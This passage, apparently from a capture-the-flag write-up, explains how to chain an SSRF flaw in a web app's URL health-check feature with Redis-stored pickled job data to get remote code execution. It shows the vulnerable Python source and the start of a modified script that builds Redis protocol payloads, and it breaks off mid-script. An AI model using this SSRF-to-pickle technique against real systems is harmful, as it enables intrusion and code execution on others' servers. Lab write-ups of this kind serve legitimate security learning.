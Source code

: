 Is this the end of the challenge? Well, `no`. Let's look up a few lines and see why.

```python
def create_job_queue(trapName, trapURL):
    job_id = get_job_id()

    data = {
        'job_id': int(job_id),
        'trap_name': trapName,
        'trap_url': trapURL,
        'completed': 0,
        'inprogress': 0,
        'health': 0
    }

    current_app.redis.hset(env('REDIS_JOBS'), job_id, base64.b64encode(pickle.dumps(data))) # This line right here

    current_app.redis.rpush(env('REDIS_QUEUE'), job_id)

    return data
```

The data that should give us way to pass in our malicious class is actually serialized before it can be unserialized. The challenge is not that simple as it looks anymore.

Another features of the app is that health checking thing. It takes a URL and calls to URL regardless of host and protocol. This is perfect as we know Redis also runs on this challenge instance **and** our data is stored on it including those jobs. So if we can somehow manange this feature to change the data of a job to a pickle serialized base64 encoded string of an "evil" object, when this data os loaded, there will be RCE. This can be done with the URL health check features.

So to summarize, we will make use of SSRF vulnerabilities to change the data so it can trigger pickle deserialzation attack.

Good theory, but how can we perform such an attack. There are good resources on this:

https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b

https://trevorsaudi.medium.com/ssrf-to-gaining-rce-rootme-ssrf-box-31b7d0e5ad08

There's a tool called `Gopherus` but since this challenge is more simple, I will try to modify a script on a [github repo](https://github.com/rhamaa/Web-Hacking-Lab/blob/master/SSRF_REDIS_LAB/payload_redis.py) to:

```python
from __future__ import print_function

import os
import sys
import base64
import urllib.parse
import pickle
import subprocess


def generate_resp(command):
    res = ""

    if isinstance(command, list):
        pass
    else:
        command = command.split(" ")
    
    res += "*{}\n".format(len(command))
    for cmd in command:
        res += "${}\n".format(len(cmd))
        res += "{}\n".format(cmd)
```